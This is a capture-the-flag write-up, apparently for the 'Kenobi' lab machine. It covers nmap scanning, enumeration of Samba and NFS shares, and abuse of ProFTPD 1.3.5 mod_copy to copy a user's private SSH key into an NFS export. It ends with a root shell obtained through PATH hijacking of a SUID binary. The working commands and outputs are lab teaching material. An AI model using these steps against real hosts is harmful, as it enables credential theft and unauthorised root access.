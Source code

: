 # NMAP
```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

# SAMBA
Samba is the standard Windows interoperability suite of programs for Linux and
Unix. It allows end users to access and use files, printers and other commonly
shared resources on a companies intranet or internet. Its often referred to as a
network file system.

Samba is based on the common client/server protocol of Server Message Block
(SMB). SMB is developed only for Windows, without Samba, other computer
platforms would be isolated from Windows machines, even if they were part of the
same network.

Using nmap we can enumerate a machine for SMB shares.

Nmap has the ability to run to automate a wide variety of networking tasks.
There is a script to enumerate shares!

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.235.32
```

SMB has two ports, 445 and 139.

On most distributions of Linux smbclient is already installed. Lets inspect one
of the shares.

```
$ smbclient //$IP/anonymous
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\vagrant's password:
Try "help" to get a list of possible commands.
smb: \> ls
.                                   D        0  Wed Sep  4 10:49:09 2019
..                                  D        0  Wed Sep  4 10:56:07 2019
log.txt                             N    12237  Wed Sep  4 10:49:09 2019

9204224 blocks of size 1024. 6877112 blocks available
smb: \>
```

Recursively download things from SAMBA share:
```
smbget -R smb://$IP/anonymous
```

Your earlier nmap port scan will have shown port 111 running the service
rpcbind. This is just an server that converts remote procedure call (RPC)
program number into universal addresses. When an RPC service is started, it
tells rpcbind the address at which it is listening and the RPC program number
its prepared to serve.

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```
$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP

Starting Nmap 7.60 ( https://nmap.org ) at 2020-12-08 23:12 UTC
Nmap scan report for 10.10.235.32
Host is up (0.31s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount:
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 2.81 seconds
```
## ProFTP
ProFtpd is a free and open-source FTP server, compatible with Unix and Windows
systems. Its also been vulnerable in the past software versions.

Let's check the version:
```
$ ftp $IP 21
Connected to 10.10.235.32.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.235.32]
Name (10.10.235.32:vagrant):
```
### searchsploit
Searchsploit is basically just a command line search tool for exploit-db.com.
```
$ searchsploit proftpd 1.3.5
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
 ------------------------------------------------------------------- ---------------------------------
 ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)          | linux/remote/37262.rb
 ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                | linux/remote/36803.py
 ProFTPd 1.3.5 - File Copy                                          | linux/remote/36742.txt
 ------------------------------------------------------------------- ---------------------------------
 Shellcodes: No Results
```

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be
used to copy files/directories from one place to another on the server. Any
unauthenticated client can leverage these commands to copy files from any part
of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the
share) and an ssh key is generated for that user.
```
$ nc $IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.235.32]

500 Invalid command: try being more creative
ls
500 LS not understood
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

After copying over the file, we mount our nfs drive:
```
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cp tmp/id_rsa .
sudo chmod 600 id_rsa
ssd -i id_rsa kenobi@$IP
```

Next we find our SUID binary:
```
find / -perm -u=s -type f 2>/dev/null
```

We find that `/usr/bin/menu` works and makes local calls to the following:
```
curl
uname
ifconfig
```

Perfect, lets create a local binary for that:
```
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
1
#
```

